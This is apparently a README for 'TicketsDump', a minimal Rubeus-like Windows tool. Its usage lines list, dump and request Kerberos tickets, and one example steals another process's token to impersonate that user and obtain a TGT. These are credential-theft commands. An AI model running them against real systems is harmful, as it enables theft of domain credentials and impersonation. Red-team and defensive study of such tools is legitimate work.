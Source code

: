 # TicketsDump
Minimal Rubeus implementation, supporting tgtdeleg with impersonation

## Usage

    c:\Temp>TicketsDump.exe --help

    list - list tickets (triage)
    get /id:0x111 - dump ticket with id
    ask [/pid:111] - ask TGT using current/pid token impersonated user context (SSPI)

    Steal token of process with pid 4542, duplicate and impersonate it, then use tgtdeleg to ask a TGT 
    c:\Temp>TicketsDump.exe ask /pid:4542
